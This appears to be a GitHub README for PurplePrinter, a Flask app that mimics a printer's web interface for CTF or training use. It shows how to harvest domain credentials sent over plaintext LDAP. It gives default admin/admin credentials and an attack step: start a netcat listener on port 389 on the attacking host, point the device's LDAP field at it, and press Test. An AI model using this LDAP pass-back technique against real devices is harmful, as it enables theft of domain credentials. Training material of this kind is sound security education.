

# PurplePrinter

A "Printer Web GUI" built on Python 3 and Flask for use in CTF's or training to showcase gathering domain credentials from plaintext LDAP 

Requirements: 
-Tested working with Python 3.10.12 
-pip install flask flask-login flask-sqlalchemy python-ldap 

Use: 
-git clone https://github.com/PurpleWaveIO/PurplePrinter 
-cd PurplePrinter 
-python3 purplerprinter.py 
-Web Browser: http://IP:5000/ 
-Login page to save credentials from enumeration/discovery/browser dumps: http://IP:5000/login 
-Default Credentials: admin/admin 
-Capture Credentials: http://IP:5000/config, on attacking host "nc -lvnp 389", enter attacker IP in Active Directory IP Address field and select the Test button 
